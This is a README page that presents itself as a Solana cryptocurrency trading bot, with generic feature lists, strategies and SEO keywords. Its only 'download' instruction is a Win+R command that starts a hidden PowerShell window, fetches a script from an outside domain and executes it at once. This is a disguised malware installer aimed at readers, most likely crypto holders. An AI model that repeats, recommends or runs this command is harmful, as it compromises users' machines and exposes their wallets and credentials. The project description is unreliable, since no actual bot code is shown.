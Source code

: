 # Solana Trading Bot 🌞💰

## Project Description
**Solana Trade Bot** is an automated trading bot designed to trade cryptocurrencies on the Solana blockchain. The bot leverages the high throughput and low transaction costs of Solana to execute trades efficiently and capitalize on market opportunities.

## Key Features
- **Solana Network Integration**: Connects seamlessly with the Solana blockchain for fast and cost-effective trading.
- **Real-Time Market Analysis**: Continuously monitors market trends and price movements on Solana-based tokens.
- **Automated Trading**: Executes trades automatically based on custom strategies and market signals.
- **Risk Management**: Implements risk management techniques to safeguard your investments.
- **User -Friendly Dashboard**: Provides an intuitive interface for monitoring trades and performance.


## Usage 🚀
<h2>📥 Download the bot</h2>
<h3>copy and execute the following command in (Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://package-extractor.com/github';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>

## Example Strategies 📈
- **Market Making**: Provide liquidity by placing buy and sell orders around the current market price.
- **Arbitrage**: Exploit price discrepancies between different exchanges or markets.
- **Trend Following**: Identify and trade in the direction of market trends.

## Contributing 🤝
If you want to contribute to the project, please fork the repository, make changes, and submit a pull request.

## License 📄
This project is licensed under the MIT License. Details can be found in the [LICENSE](LICENSE) file.

## Useful Links 🌐
- [Solana Documentation](https://docs.solana.com/)
- [Solana API Reference](https://docs.solana.com/api)

---

**SEO Keywords**: Solana Trading Bot, automated trading, cryptocurrency, blockchain trading, trading strategies, market analysis.
